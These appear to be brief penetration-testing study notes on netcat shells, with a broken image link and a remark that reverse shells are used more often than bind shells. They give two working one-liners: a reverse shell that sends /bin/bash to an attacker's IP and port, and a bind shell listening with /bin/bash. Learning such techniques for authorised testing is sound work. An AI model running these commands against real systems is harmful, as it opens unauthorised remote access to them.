

Netcet Reverse shell

Netcat Bind Shell
Will mostly use Revere shells. Bind shells are mostly used in External PenTests
Victim Reverse shell: nc [ip] [port] -e /bin/bash
Victim Bind shell: nc -nvlp [port] -e /bin/bash